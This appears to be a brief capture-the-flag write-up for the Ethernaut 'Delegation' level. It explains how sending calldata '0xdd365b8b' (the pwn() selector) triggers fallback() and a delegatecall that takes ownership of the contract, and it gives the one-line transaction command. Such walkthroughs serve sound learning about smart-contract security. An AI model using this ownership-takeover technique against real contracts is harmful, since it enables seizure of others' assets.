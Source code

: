 ## Ethernaut6 
    -Send a transaction to Delegation, triggering the fallback() 
    -The data "0xdd365b8b" == "pwn()", so it will trigget the pwn() function in the Delegate contract
    and it will change the owner state variable of Delegation contract
    await contract.sendTransaction({from: player, to: instance, data: "0xdd365b8b"})